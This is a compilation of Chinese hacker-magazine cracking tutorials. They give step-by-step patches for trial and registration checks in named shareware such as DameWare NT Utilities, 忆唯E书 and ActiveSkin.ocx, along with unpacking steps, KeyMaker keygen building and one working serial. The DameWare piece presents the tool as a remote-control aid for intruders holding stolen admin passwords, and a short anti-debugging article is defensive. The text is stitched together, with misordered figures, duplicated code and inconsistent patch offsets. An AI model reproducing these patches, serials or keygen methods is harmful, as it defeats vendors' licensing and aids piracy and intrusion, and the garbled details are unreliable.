现在运行一下程序，没有时间过期限制了吧。不过你是否觉得，每次启动程序都要点一下继续，是不是很烦？甚至可以这样修改：只要让程序跳过点击 Continue 的代码即可，把 `003A7E19 JNZ bmsm.003A7EB5` 改为 `003A7E19 JMP bmsm.003A8252` 即可。不过程序少了启动图片显示，有兴趣的读者可以修改一下，让其显示启动图片。这是一种暴力破解的方法，修改程序让其强行跳过过期代码。其它漏洞还包括修改时间标志法，限于篇幅，在高级技巧篇再详细解说。

## 三、总结

目前非常多共享软件使用试用期方式进行发布，通过本文，读者应该了解时间限制软件的加密特点，快速定位判断时间是否过期的代码，判断程序软件过期提示、暴力修改软件的方法等基本知识。更重要的是，Cracker 是一种反复跟踪程序、不断了解程序流程的过程，只要用心去做，什么事情都可以做好。

（本文涉及到的 OllyDbg 1.1、PEiD V0.93、OllyDbg 命令行插件，光盘有收录）


偶经常拿 U 盘去朋友家上网，搜罗一些网页下载回来再慢慢看，一来二去渐渐多了起来，大约十几兆之多。可是每次查阅都不是很方便，经常为了一个文字找半天，既浪费时间又不好管理，所以就想把它们做成电子书，这样也方便以后的查阅和管理。终于皇天不负有心人，在翻看了 N 多张以前的杂志光盘后，忍受光驱无数次拖拉机般的吼叫之后，主角忆唯 E 书闪亮登场。

解开压缩包之后先看了一下软件简介：忆唯 e 书是将 HTML 页面文件（包括媒体文件）捆绑成 EXE 电子文档的制作软件。本软件可以说是吸收了目前市面类似软件的优点，采用文件流技术，所有文件都在内存中释放和读取，不产生垃圾文件；软件采用仿 NeoPlanet 浏览器界面，界面优美；制作的电子书可以部分或全部加密，从而保护制作者的利益，是制作 EXE 电子图书不错的选择。


而且还不用安装，直接可以运行，正合我心意。双击主程序运行，跳出如图1所示窗口。竟然要偶十五块 RMB，未注册用户还有 15 个节点的限制。先看看再说吧，试着做了个电子书，感觉还可以，好，就是它了。

开工之前先介绍一下要用到的工具。OllyDbg（以下简称 OD）是一款运行在 Ring3 下的调试工具；W32Dasm：小巧、实用、界面简单干净的静态反汇编工具，被誉为 Cracker 的屠龙刀；PEiD 是一款用来检测软件壳类型的工具，非常好用。

KeyMaker 1.73 是国人刘建英开发的一款功能强大的补丁制作工具。首先我们要判断程序是否加了壳，如果是加壳的程序我们必须先脱壳才能继续，这里我用 PEiD 来检查是否有壳；从图中可以看出是用 ASPack 2.1 加壳。知道了壳的类型，我们直接用工具脱掉就可以了，UnASPack 是专门用来脱 ASPack 壳的软件，它可以一直支持到 ASPack 2.1 版本。然后再用 PEiD 查看是否已经脱掉了，如图3所示，可以看出程序使用 Borland Delphi 4.0-5.0 写的。好，壳脱完到此结束。

双击程序运行，点注册，在弹出的窗体中随便输入用户名、注册码，点击确定按钮，弹出错误对话框，记下错误内容“用户名或密码错误！！”，然后用 W32Dasm 静态反汇编。打开字符串数据参考，寻找刚才记下的信息，如图4所示。双击来到如下代码段：


# 神秘园


```asm
00492213 6A40            push 00000040
00492215 8B8754050000    mov eax, dword ptr [...]
0049221B E8D01DF7FF      call 00403FF0
00492220 8BD0            mov edx, eax
...
* Possible StringData Ref. from Code Obj -> "忆唯E书"
00492222 B9B4224900      mov ecx, 004922B4
--> 在这里下断点可以被拦截
```


```asm
* Possible StringData Ref. from Code Obj -> "用户名或注册码错误!"
0048FCD6 BAE8CE4800      mov edx, ...
0048FEE8 E8203FF7FF      call 00403C00
0048FCE0 C605849A490000  mov byte ptr [00499A84],00
0048FCE7 8D8350050000    lea eax, dword ptr [ebx+00000550]
```

记下地址 **0048FCD6**，然后用 OD 加载这个程序并运行，输入任意用户名、注册码，并在地址 **0048FCD6** 处下断点，点击确定按钮，竟然没反应。

又回到 W32Dasm 中继续找有用的信息，把字符串参考内容又看了一遍也没发现什么有价值的东西，百无聊赖地重复着注册——确定——确定，不知道怎么办才好。


这个 Caption 属性是不是可以被捉到呢？再次打开 W32Dasm 的字符串参考，双击后发现有好几处地址：`00490E01, 00492200, 00492222, 004922D0, 0049229C`。逐个下断点测试后，在 **00492222** 处被拦截，说明这段程序被执行了。

```asm
* Referenced by a (U)nconditional or (C)onditional Jump at Addresses:
|:00492175(C), :00492186(C)  -----> 这是引用的地址
```

向上翻可以看到引用的地址 **00492175、00492186**，在 **00492175** 处设断点，然后输入用户名和注册码，点击确定，程序被中断来到如下代码处：

```asm
* Possible StringData Ref. from Code Obj -> "fuck you"
0049215E BA6C224900      MOV EDX, ...
00492165 E82E73FFFF      CALL Make.00489498
0049216C E81F76FFFF      CALL Make.00489790
... 这里可以找到注册码计算子程序
00492175 0F84 98000000   JE Make.00492213
... 这里 EAX 放了正确的注册码
00492186 0F85 87000000   JNZ Make.00492213
... 关键比较，注册码在这里比较
```

单步跟踪以上程序段，你可以在 OD 的寄存器里看到注册码。还犹豫什么呀，赶紧抄下吧！好了就到这里，你可以用 KeyMaker 做一个注册机。若想追踪注册码的计算方法，可以直接在如下代码处下断点。

# 神秘园

```asm
004897CD  50            PUSH EAX
004897CE  8B4E 34       MOV ECX,DWORD PTR DS:[ESI+34]
004897D1  8B56 24       MOV EDX,DWORD PTR DS:[ESI+24]
004897D4  8BC6          MOV EAX,ESI
004897D6  E8 75FDEFFF   CALL Make.00489550
...
004897E1  E8 1AA4E7FE   CALL Make.00403C00
```

```asm
004897E6  33C0    XOR EAX,EAX
004897E8  5A      POP EDX
```

跟进 `004897D6` 这个 CALL，你就能看到注册码运算过程了。当你分析明白后，可以用你最熟悉的语言写出注册机。

破解这个程序用了我半天的时间，同时遇上一些困难。由于是菜鸟加之行文仓促，难免有不当之处，希望高手能多多指导。学破解最需要的是恒心和毅力，如果能抱定永不放弃的决心，那成功只是个时间问题了。

> （本文涉及到的常用破解工具和 ew-ebook，光盘有收录）


## 兼听“父”鉴定——反 OllyDbg 调试一法

石勒

亲子鉴定在当今社会中甚为热门，而在加密解密的世界里，亲“父”鉴定似乎更为重要。

在 Windows 环境中，OllyDbg 是把被调试程序当作子进程来运行的。因此，为了反调试，就需要对当前进程的父进程进行鉴定，以确认自己是否处于调试环境中，并依据鉴定结果作出相应的处理。

## 二、方案

亲子鉴定需要以 DNA 为标识，在父进程中怎么去找 DNA 呢？有的反调试方案在此以父进程的文件名或窗口名为目标，但容易被骗过。

这里，我们要到父进程的内部去找“DNA”。多数情况下，当前进程是以 explorer.exe 为父进程的，就拿它举例吧。

运行 W32Dasm，打开 explorer.exe，在“字符串参考”里我们发现“/explorer”很有个性，不妨就把它当作 DNA。

很容易地找出它在文件中的偏移为 `0x02633C`，鉴定方案也随之确定了：

- 第一步，通过 TOOLHELP 快照找到父进程的进程标识，再利用 `OpenProcess()` 和 `GetModuleFileNameEx()` 找出父进程的文件名（含路径）；
- 第二步，以文件方式打开父进程，在 `0x02633C` 偏移处读 18 字节；
- 第三步，将读出的内容同“/explorer”（Unicode）相比对，如不同则说明处在调试环境中（有些武断，但很保险）。

## 三、示例程序

以下是示例程序的代码部分，流程简单，不再另作说明。  
第一步，获得父进程的文件名：

```asm
invoke CreateToolhelp32Snapshot,TH32CS_SNAPPROCESS,NULL
mov hPS,eax
mov pe.dwSize,sizeof PROCESSENTRY32
invoke Process32First,hPS,addr pe
invoke GetCurrentProcessId
...
invoke Process32Next,hPS,addr pe
ENDW
invoke OpenProcess,PROCESS_ALL_ACCESS,FALSE,pe.th32ParentProcessID
invoke GetModuleFileNameEx,eax,NULL,addr ParentName,MAX_PATH
```

第二步，读 DNA：

```asm
invoke CreateFile,addr ParentName,GENERIC_READ,NULL,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_SYSTEM,NULL
mov hFile,eax
invoke SetFilePointer,hFile,02633Ch,0,FILE_BEGIN
invoke ReadFile,hFile,addr lpBuffer,18,addr dwSize,0
```

```asm
mov hFile,eax
invoke SetFilePointer,hFile,02633Ch,0,FILE_BEGIN
invoke ReadFile,hFile,addr lpBuffer,18,addr dwSize,0
```

第三步，比较父进程是否含 DNA：

```asm
mov esi,offset lpBuffer
mov edi,offset explorer
mov ecx,9
cld
repnz cmpsw
jnz @F
invoke MessageBox,NULL,addr ParentName,addr szCaption,MB_OK
@@:
invoke ExitProcess,0
```

## 四、讨论

上述程序只有直接在 explorer.exe 的环境下运行，才会跳出 MessageBox。若用 OllyDbg 调试，只要晚点运行关键函数的后面，就能达到反调试的目的。

当然，本文使用了绝对的 DNA 偏移地址，使被保护的程序兼容性较差。实际应用时，可能需要把识别不同版本的 explorer.exe（包括 cmd.exe 和第三方 shell）的 DNA 的代码加到程序中。

## Cracker 组合招式之轻松突破时间限制高级篇

逆枫

- 工具：OllyDbg 1.1（下面简称 OD）、PEiD V0.93、OllyDbg 命令行及 dump 插件、ucfir142+
- 面向读者：加密爱好者、系统底层爱好者、黑客爱好者
- 前置知识：汇编入门知识、OD 工具的简单使用
- 级次：中级
- 对象：DameWare NT Utilities V4.8.1.2

## 一、前言

兵器，是黑客立足江湖，更是杀敌保命的根本……对于手头紧或爱急着使用的朋友，唯一的途径就是使用别人的破解版了……如果你也想，那就跟着偶，去寻找最新的免费黑客工具吧！

> **DameWare 是什么？**

当入侵者获得了远程主机的管理员密码及帐号后，往往要找一款图形工具实现远程控制，而 DameWare 就是这种工具……其官网发布的是完全功能版，不是 Demo 版，不过只有 30 天试用时间，过期会出现提示然后退出。


**怎么免费搞定 DameWare？** 建议大家还是支持正版。本文介绍一种破解方法，有兴趣的朋友也可以自己对照后使用这种方法来解除软件的限制。

## 二、DameWare 加密方法探讨

在这里，将介绍上一期的类似方法，不过我们的组合招式增加了脱壳等过程。首先，查看软件的相关信息。用 PEiD 查看软件，如图2。


可以看到软件加了 PeCompact 的壳。由于这个是压缩壳，脱壳相对比较简单，所以本文也介绍一种比较简单的脱壳方法。首先，DameWare 简单脱壳：用 OD 载入 DNTU.exe 程序，在命令插件窗口输入：`bp VirtualFree`，回车，如图3。


然后按 F9 运行程序，会中断在如图4这里。


我们在 `Kernel32.VirtualFree` 那行按 F2 取消断点，选择菜单“View/Memory”，打开内存窗口，找到如图5所示，下断点。


这表示在程序的代码段下断点，这样程序执行到代码段就会断下来。这样我们就可以 dump 程序，得到的就是未加壳前的程序了。按 F9，程序停在如图6这里。


点击菜单“Plugins/OllyDump/Dump debugged process”，在弹出的如图7的窗口中，填写信息，进行 dump 程序。先不要关闭 OD，后面的修改 IAT 要用到。


运行 ucfir142+ 程序，进行修复程序的 IAT，如图8。选择程序，填入 OEP 设置好后，依次点击标号 1、2、3 处的按钮，在弹出的修复程序中选择刚才 dump 出来的程序。


到此程序脱壳完成。最后分析程序，击败其时间限制。这可以从两方面入手：一是从软件的注册过程入手，找到软件验证注册的过程，逆推出密码；另一种方法就是按上一期的方法，强行修改程序，让它跳过时间限制。由于程序把试用天数、注册信息等保存在 LSA 秘密信息服务里面，并且用到 DES 及 AES 加密算法，所以通过消除试用天数的信息及逆向推出注册码都会非常困难。

我们要通过过期时间限制的消息框来指引。现在修改时间让程序过期，然后载入脱壳后的程序。由于程序退出前有消息提示，所以下 API 断点，在命令插件窗口输入：`bp MessageBoxW`。

F9 运行程序，试用一会。由于程序过期，很快会断在 MessageBoxW 断点这里，按一下 `Ctrl+F9` 返回到程序代码。


可以看到程序是弹出过期提示，然后退出。这段代码就是关键代码了。

仔细看前面几十行代码，会发现程序是采用多线程校验的方法，如图10所注解。


来到这里，就有两种方法修改程序，让它跳过后面的验证代码。一种是对版本逻辑与跳转路径做强制修改；另一种是补线程执行这个线程的代码。这种方法很简单，也就是在图10所示 `44A9C8` 那句，把它改为 `JMP 0044AD87`，让程序跳过定时验证。


到这里程序就已经被击败了。最后，介绍一个 LSA 的漏洞破解法。

由于程序是使用 LSA 的方式进行保存信息，必须要求用户有管理员权限，同时程序会把信息按用户名进行分类保存，所以只要用户通过修改登录用户名，就会获得软件新的 30 天试用时间，也就是等于清除了软件试用天数。

## 三、总结

本文从脱壳到分析程序，再到破解，进行了完整的解说。文中涉及到的思维、工具、技巧的配合等，读者可好好体会 Crack 的组合招式。

## 轻松破解 QQ 聊天记录终结者 V4.0

拓海—Ju[居廷平]

看了 05 年第 3 期的《X 档案》的《轻松查看他人 QQ 聊天内容》，最后作者说希望高手能把《QQ 记录终结者 4.0》给破解掉。好，我来！

先准备好打劫的工具：WinHex、PEiD、W32DASM、OllyDbg 1.10b、UltraEdit。在破解之前不知道注册码是如何存放的，所以我总共分了两个思路。

这第一就是直接用 WinHex 加载，注册码明文比较出来。第二个是先查壳，用 W32DASM 找出关键跳，再用 UltraEdit 修改，或者用 OllyDbg 1.10b 找出注册码。

打开“QQ 聊天记录终结者 V4.0”，选择“程序注册”，在“输入注册码”的后面乱填上注册码 lonelyhero，再按“注册”。


# 神秘园


图2


图5

之后再选择 `search => find text`，在弹出的对话框中填入 `lonelyhero`，点 OK。如图3。这样会来到有 `lonelyhero` 的地方，但这并没有真正的注册码，再按 F3 两次，再往下找，看见什么了？**DMAMAMCRAAAM-CNHYBECYAKDZJH** 这八成是注册码，如图4。于是我就把它填进了“输入注册码”的后面，果然成功了，如图5。

虽然成功了，但我还想用其他方法试一试，就是第二种思路。我用 PEiD 查壳，发现是用的 UPX，如图6。接着又用了 Quick Unpack 进行了脱壳，如图7。再用 W32Dasm 加载，但没找出“注册码错误，请您正确填写”的字符串，又找到一个“TRUE”，我就试了几次。OllyDbg 上设断点不行，也试了其他的一些，也没能成功。还望大侠们指点。


图3


图6


图4


图7

总结这次破解，也没用到什么技术。要想成为一个优秀的破解高手要懂得很多技术，像汇编、动态分析、静态分析等等，这些都要用心去学才行。这也是我第一次写文章，如果有什么错误的地方还请指出，小生在此感谢。

（本文涉及到的破解工具，光盘有收录）

## 我与逆向 Crack 的

Cosmos.L.X

前些天郁闷，拉上了一位死党逃课去“下海”。用 U 盘收完邮件后，我习惯性地上了《黑客 X 档案》论坛的编程破解板块。在里面我看了一位仁兄的帖子，主要内容还是问一些关于破解软件的问题。草草地给他回完贴后写了这篇文章，文章没有什么技术性可言，主要是说了一些我在 Crack 时发现的问题。希望本文能对一些破解新手起到一些帮助。

先不提我是什么时候怎么喜欢上 Crack 程序的，先说说我在以前的《X 档案》上找出的一些问题吧。我在以前的杂志上经常看到一些作者写的用 W32Dasm 跟 OllyDbg 实行动静结合破解软件的文章，我认为其中有一部分作者写得不是很好。就拿 05 年第 1 期里秦妮的文章《Crack 菜鸟阶段晋级篇》来说吧，作者的思路我认为从一开始就是错误的。秦妮的这种方法爆破程序有一定的局限性。也就是说用这种方法可以破解一少部分软件，但对于大多数软件来说，这种方法根本就是不管用的。看一下我整理的“软件注册流程图”吧，如图1。


大家可以看出秦妮改的那处跳转是图中进行对比处下面的“关键跳转”，只要把它改掉后无论输入什么软件都会报“注册成功”（除非输入真正的注册码）。但软件提示“注册成功”是否就能够说明软件已经认定你是合法用户了呢？大家可以按秦妮说的那种方法修改一下程序试试……

现在说一下我以前用过的爆破方法吧！同样是爆破，但是我不会去用“注册错误”的提示当作破解线索的，我会选用软件作者在未注册程序里显示的一些特定字符提示为线索来实行爆破。先来看一幅图吧！如图2。


这幅图是我整理出的一些判断你是否合法用户的事件，不同的软件会实行不同的方法判断你是不是合法用户，这里我将它们分为两类：一类是每次启动软件都会进行判断的；另一类是当你运行软件中的某项只有注册用户才能使用的功能时才进行验证。

好了，现在大家看一下我的“动静结合”爆破思路吧！打开程序，在程序中找一处只有未注册版本才会显示的东西，按常用爆破方法先用 W32Dasm 加载程序，在字符串参考里查找这句，如图3。


找到后双击来到它的汇编处，在它的上面会找到一处跳转 `0059CDAC (C)`，按惯例横向上查找会找到一处条件跳转，如图4。

看到 `0059CDAC je 59CDE1` 了吗？只要将 `je` 改为 `jne`，软件就不会显示“未注册”了。不过这并不代表完全破解，因为还可能有其它跳转需要处理。再向上查找，找到如图5的地方 `0059CD6D jne 0059CDA5`……

我们的目标就在这里，只要再将这处跳转 `jne` 改为 `je`，软件就算基本完成爆破。为什么说是“基本”呢？因为软件上提示未注册版本只能使用 99 次，还需要继续处理计数相关跳转。


图6


图9

……先对程序进行汉化，然后再去破解它。程序是用 Delphi 写的，所以选择用 ResHacker 对程序进行汉化。……在 RC 数据中的 TFORM1 里看到了 `Caption = 'About RegHance'` ……

平时判断值 A 是否等于值 B……而 `(U)` 不同于 `(C)`，`(U)` 是非条件跳转……只要遇到 `(U)` 程序就会跳到 `(U)` 处执行。……软件 `jmp` 到这个地址说明软件一定是为了运行某种功能才这么跳的。……

```pascal
object Timer1: TTimer
  Enabled = False
  Interval = 1200
  OnTimer = Timer1Timer
  Left = 312
  Top = 16
end
```

会编程的朋友应该知道这些东西的意思吧？尤其是这句代码 `Interval = 1200`，只要将 `1200` 改为更小数值，关闭时对话框的 3 秒限制就会缩短。继续汉化，在窗口上方又找到了这些代码：

```pascal
OldCreateOrder = True
Position = poDesktopCenter
OnActivate = FormActivate
OnClose = FormClose
OnCloseQuery = FormCloseQuery
OnCreate = FormCreate
OnDestroy = FormDestroy
OnKeyDown = FormKeyDown
OnShow = FormShow
PixelsPerInch = 96
TextHeight = 14
```

哦，`OnClose = FormClose`？这句是不是程序的关闭事件呢？试着删除后将程序保存为 `123.exe` 运行……程序在关闭时果然没有弹出要求注册的对话框。……这种方法主要用于说明 Crack 时要灵活，不要只用单一路径去破解。

前些日子我在整理硬盘时找到了一个 N 年前的程序 RegHance……它是一款注册表编辑工具。……虽然是英文版但我还是很喜欢，我觉得它完全可以代替系统中的注册表编辑器 Regedit。


图7

这个程序也是共享软件，未注册版本在关闭程序时会弹出一个要求注册的对话框，3 秒后才能关闭，如图8。用 PEiD 检查程序时发现程序是用 PECompact 压缩的……


图8

## 破解高强度文件夹加密大师

一直以来在网络中心干活，可以说是在默默无闻地搞技术。昨天突然系里面的老师找上门来，吓了我一跳，还以为平时搞一些地下活动被发现了。后来得知是老师听说我对黑客这方面有了解，所以找我来帮忙。老师拿出了一台手提，说里面有个文件夹被《高强度文件夹加密大师》加密了，而且密码已经忘记了，要我解开！没办法只好接下了这个任务。

于是开始了破解活动，自己在机上装上同版本的高强度文件夹加密大师 3000。算是很旧的版本，应该有效的。随便加密了一个文件夹，加密后图标改变，本来几百 M 的文件夹，变成了一百多字节，太神奇了。

在另外一个系统查看，文件夹变成了“.men”后缀的文件！进入 DOS 也是如此，而且都是不能进入那个文件夹。回到原来的系统，双击文件夹输入正确的密码后，才可以进入加密的文件夹，如图1。


以上种种现象，个人认为文件夹及里面的内容一定是被转移了。后来也验证了自己的想法！查看一下资料发现最有可能就是文件夹被藏在 `C:\RECYCLER` 里面。但是我从 DOS 里面或者是在显示隐藏文件的情况下都是找不到那个文件夹，烦恼了很久。

后来突然想到可以通过杀毒软件去查隐藏文件。杀毒软件果然让我兴奋。刚好手提电脑里面装了一个金山毒霸 6。打开杀毒软件，选择要杀毒的文件夹。其实这个时候也就是查看隐藏文件的最好时候。终于发现文件夹藏在了 `C:\RECYCLER\System Volume Information` 里面了，如图2。


原先无论怎样在本身已经隐藏的 `C:\RECYCLER` 里面，找到并双击隐藏的 `System Volume Information` 文件夹，文件夹都会跳转到控制面板，而看不到里面隐藏的文件！况且 `System Volume Information` 是在系统还原的时候使用的。

终于找到隐藏地了，剩下的任务就是要还原回来！一直搞不懂！后来跟 LvHuaNa 兄弟商讨了一下，觉得通过 ghost 可以达到破解目的。于是采用了以下方案：用 `ghost32.exe` 克隆，再用 `GhostExp.exe` 读取出来，如图3。


- 做法：
  1. 首先加密后一定不可以清空回收站。
  2. 其次 ghost 之前一定不可以关闭系统还原功能。

我使用了 ghost8.0 的 `Ghost32.exe` 在 DOS 下对整个系统盘进行了克隆。由于整个硬盘都是 NTFS 格式的，于是我将其中的 D 盘格式化成 FAT32 格式。这样 DOS 下才能访问。将 ghost 文件和制作好的 `.gho` 文件都放到 D 盘。


等待了一段时间后，克隆成功。回到系统使用 `GhostExp.exe` 将文件复制出来，最后终于破解成功了，如图4。

> **《文件夹加密大师》用到的两个技巧：**
> 1. 采用了空白文件夹名，使我们不能轻易地在 DOS 下用 `CD` 命令进入，可以手工或编程对文件夹重命名，之后便可随便进去。
> 2. 采用了特殊文件名，使我们不能在资源管理器和 DOS 下轻易地删除这个文件夹，但用编程的方法可以轻易删除这个文件夹。

不信大家可以试一下：只要把加密文件夹所在分区的回收站移动一个位置，解密就一定出错！把回收站放回原来的位置，解密就会成功。呵呵，真是晕呀！一句话，要是用户不小心删除了回收站，后果之严重可能只能用“欲哭无泪”四个字来形容！

（本文涉及到的高强度文件夹加密大师，光盘有收录）

## Cracker 组合模式2：轻松突破光盘隐藏技术

逆枫

- 工具：OllyDbg 1.10（下面简称 OD）、PEID V0.93
- 面向读者：加密爱好者、系统底层爱好者
- 前置知识：汇编入门知识；OD 工具的简单使用
- 级别：初中级
- 对象：未知加密隐藏光盘

### 一、前言

对于光盘的加密及隐藏技术，早就有所闻了，之前的 X 档案也有讨论。但一直没真正见识过，几天前有一个朋友叫我帮他看看一张电影加密隐藏的光盘，于是把过程记录下来。如果大家手头也有这种加密隐藏光盘，用文中的方法及思路试着突破一下。

### 二、了解加密隐藏光盘

把这个光盘直接放入光驱，打开一看，如图1所示。可以看到光盘的文件夹 `24BITTIF` 内容只是一些大自然的图片，但是你会发现，这些 TIF 格式图片文件都是 20 多 M，非常可疑，因为一般这种图片的格式最多就是几 M。其它十几 M 的东西是什么呢？到后面我们会看到一些有趣的东西。


看光盘的说明是说第一次要点击运行 `autorun.exe` 这个文件，点击运行后，只出现如图2所示的界面。


点击后并没弹出光盘的真实内容，只是一些常规的看图软件。由于 `autorun.exe` 这个程序非常可疑，我们用 PEID 看看它是什么语言写的，如图3。


看到原来是用 VB 编写的程序，并没有加壳。我们可以用 OD 载入程序进行分析，看看里面的执行流程，看有没有方法突破其隐藏。

### 三、深入程序，寻求敏感信息

用 OD 载入 `autorun.exe` 文件，VB 的程序反汇编代码比较繁杂，一般最好的定位关键代码的方法就是采用信息查找法。在 OD 的 CPU 窗口中，右击，如图4所示，进行字符串查找。


在弹出的窗口中，我们会发现如图5所列的敏感信息。


可能你会问，你怎么知道这些就是敏感信息？一般来说，程序中通常都会有一些出错提示信息、程序运行的一些参数等等，以字符串的形式保存在程序中。我们看到一些可疑的信息时，可以进入到代码窗口中分析一下代码，看看是不是程序的关键代码。好了，我们双击一下 `\TOOLS\Data1.tag\` 这样的字符串，来到如图6所示。


再双击另一行 `\TOOLS\Data1.tag\` 这样的字符串，来到如图7所示。


Cracker 组合模式强调的是把握信息，对程序的流程作出推测。从上文，读者能推测出什么呢？你有没有想到为什么程序要写注册表？并且注意到程序读写注册表后就有判断，是否执行外壳程序。所以初步推测程序是这样的流程：从注册表读一些信息，然后比较，如果符合条件，就会运行另一个程序。我们试一下 NOP 掉图7中那句跳转，让它不跳，也就是让它执行后面的 `rtcShell` 这个函数，如图8。


现在 F9 运行一下程序，弹出如图9所示一个窗口。

### 四、总结

从上面分析可以看到，这种光盘隐藏技术只是使用一些障眼术，我们使用一些逆向调试工具就可以轻松突破。本文主要是从收集信息，到推测程序的流程进行 crack 的，这是一种非常好的思维方式。其实这个光盘在弹出图2所示的安装界面时，只要长按键盘 A 键，就会弹出图9所示的光盘内容……


可以看到，这正是我们要找的内容了。

## Crack 菜鸟阶段晋级篇

## —— TIT 女子破解小组之注册机编写教学篇

秦妮@[E.S.T]&[T.I.T]

我们上一次《TIT 女子破解小组之注册码追击教学篇》讲的是如何通过动态分析追出正确注册码，我们的主要思路及步骤是：

- 检查程序是否加壳，如加壳则脱壳。
- 反汇编程序，找到关键跳。
- 在关键跳的基础上，向上找，找到关键 CALL。
- 在关键 CALL 处下断点，运行程序。
- 断下程序，查找相关寄存器找到真正注册码。

通过爆破改造的方法可以很容易地进行爆破，具体步骤见《TIT 女子破解小组之菜鸟爆破教学篇》。我们得到爆破后的文件 `DMS1.exe`。打开 `keymake.exe` 选择“其它”栏里的“制作文件补丁”……

通过练习相信大家应该熟练掌握注册码追击的技巧了，那么今天我们就来结合注册机编写器来讲解一下文件补丁、内存注册机和简单算法注册机的制作。

- 爆破改造 —— 我们可以制作文件补丁。
- 狙击点码 —— 我们可以制作内存注册机。
- 算法破解 —— 我们可以提取算法写算法注册机。

以上也是破解的不同阶段，相信大家通过上二篇文章的学习，已经达到第二阶段了吧！我们现在就结合上一篇文章来讲解文件补丁、内存注册机的制作。

### 一、爆破改造补丁篇

使用工具：keymake V1.73。我们还以《Word 文档资料管理系统》和《网络电视小精灵》为例……

```
《Word 文档资料管理系统 V1.58》 0059A1C7 jne 0059A27E
《网络电视小精灵 V3.3.5》     00480A33 jne 00480B0B
《网络电视小精灵 V3.50》      00481FEF jnz Unpacked.004820C7
```

### 二、狙击内存注册篇

使用工具：keymake V1.73。针对不同的破解手段，用不同的注册机制作方法。下面我们就针对狙击注册码来制作内存注册机……

第一字节：就是当前设置的中断位置处反汇编后的第一个字节。`00481FEA E8 1125F8FF` 的第一字节是 `E8`。

指令长度：就是当前中断位置反汇编后的长度。`E8 1125F8FF` 每 2 个字符算 1 个长度：`10/2=5`。

> 注意：取注册码的方式还需实践说明一下“字符串方式”，因为注册码可能会放在寄存器中比较，并且可能经过十六进制方式计算的转换，我们可以用最后的一个字节再次对照，或十六进制的选项来完成。

内存方式：是指如设置为 EDX，即指注册码保存在 EDX 所指向的内存地址中（而不是寄存器里，所以不用“寄存器方式”）。

偏移地址：这就是说明注册码是在 `edx+64` 的位置，那么现在就可以在偏移地址处填入 `64`（如果是 `edx-64`，就填入 `-64`），没有偏移就不填。

宽字符串：一般在 VB 程序中出现，用 `00` 将 ASCII 码分隔。

内存单元：比如说注册码你在 `[EDX]` 处看到 `1A;2B;3C;4D`，并且它就是注册码，你就可以使用这个选项了。

地址指针：但是如果我们中断处内存 EDX 里的值是 `19841017`，而 `19841017` 里的值又是 `19830204`，`19830204` 所指向的地址才是注册码所在，我们就可以用“地址指针”了。

取注册码就不要选择地址指针；如果你要从 `19841017` 里取注册码就选择地址指针，并将其值设置为 `1`；如果你要从 EDX 里取注册码就选择地址指针，并将其值设置为 `2`。有了这个功能以后就可以尽量避免使用直接内存地址。因为 Win2000/XP 对内存的分配与 Win98 不同，直接指定内存地址很容易出错。

> 注记：这个注册码机功能只适用于规定方式的程序，因为未规定的程序内存地址与取注册码的方式不同。（Word 文档类软件管理器（v1.5.8）的内存注册码的取作方法类似）

在“用户信息”中写上你的个性资料，打造个性样式。设置好上面信息后，点“生成”保存注册码机。使用时直接打开刚生成的注册机，胡乱填写注册信息注册，程序会自己弹出注册码，然后我们再重新用正确注册码注册。

关于简单算法分析就不多说了，个人认为 keymake 在制作文件补丁和内存注册机上极方便，算法透明规范有点……不知道 C 语言来得快。keymake 的帮助文件里有个例子大家可以看看。最后再次感谢大家的支持，也希望您能学到有用的知识。

## 菜鸟也要突破 OCX

### 逆向静态破解法

我是一只小小小菜鸟，想要破解却怎么样也破不了……在破解的领域里，我只是刚刚入门的小学生，我在不断学习、不断努力，孜孜不倦地徜徉在破解给我带来的欢愉里，而《黑客 X 档案》便是我的教科书，并且从入学的第二期杂志到现在，每一期都精心收藏在我的宝箱中。

扯远了，这不，前阵子刚刚学习了 2005 年的第 3 期，其中有篇课文叫做《菜鸟破解实战之用 OllyDbg 突破 OCX》。我认真研读文中的思想，按步骤做着验证，觉得作者实在是太谦虚了，都会灵活运用 OllyDbg 了，还自称为菜鸟，而我还不会用 OllyDbg，我才是真正的菜鸟呢！

学完了，该做作业了。对于像我这样或者比我还菜的小鸟们来说，用 OllyDbg 可是太难了，能不能用最最简单的方法进行破解呢？我测试了一下，就拿作者文中提到的 `ActiveSkin.ocx` 控件下手，只用 W32Dasm 与 UltraEdit32 配合就可以静态破解，不必要进行动态的跟踪和调试。因此这次的作业就是“逆向静态破解 OCX”。

这款 OCX 控件是用于软件换肤的，具体介绍参见 Sdhiyt 的原文，本菜鸟就不多赘口舌了。Sdhiyt 也已经对该控件进行了检测，没有加壳，省去了脱壳的麻烦。

用 W32Dasm 反编译该控件文件，打开字符串数据参考，寻找未注册时提示信息字符串，如图1所示。

同样，我也找到了两个地址，分别是 `12121528` 和 `12121630`。从 `12121529` 的位置往上查找，找到最近的一处跳转指令：`12121549(C)`，如图2所示。

跳转到该指令所在位置，其代码是：`72D7 jb 12121522`，如图3所示。


# 神秘园

如果该跳转语句执行，就会弹出未注册信息。因此，我们需要将该跳转指令 NOP 掉，使其不发生跳转即可。修改二进制代码我们使用 UltraEdit32，先将该跳转指令所在的偏移地址 0000'1849H 记录备用。

同理，从 12121630 位置往上查找，找到最近的一处跳转指令：12121650(C)，跳转到该指令所在位置，其代码是：72D7  jb  12121629，将该跳转指令所在的偏移地址 0000'1650H 记录备用。

现在用 UltraEdit32 打开 ActiveSkin.ocx，跳到偏移地址 0x1849 和 0x1630 位置，分别将机器码 72 D7 修改为 90 90，保存退出。

来测试一下吧，打开 Sdhjt 作者写的 test.exe 程序，还是会弹出未注册信息提示。

第一遍没有破解成功，我们再来一遍（也不知道是怎么想的，突然间就想再重复一遍试试）！也就是本菜鸟定义的所谓的“递归静态破解法”！

对第一遍修改过的 ActiveSkin.ocx 进行反编译，查找提示字符串……

从 12121529 位置往上查找，找到最近的一处跳转指令：12121515  7548  jne 1212155F，如图 4 所示。


图 4

从代码可以看出，如果该跳转没有发生，就会弹出未注册提示，所以只需将 jne 修改为 jmp 即可，将该跳转指令所在的偏移地址 0000'1615H 记录备用。

同理，从 12121630 位置往上查找，找到最近的一处跳转指令：12121618  7536  jne 12121653，将该跳转指令所在的偏移地址 0000'1618H 记录备用。

现在用 UltraEdit32 打开 ActiveSkin.ocx，跳到偏移地址 0x1515 和 0x1618 位置，分别将机器码 75 48 和 75 36 修改为 EB 48 和 EB 36，保存退出。

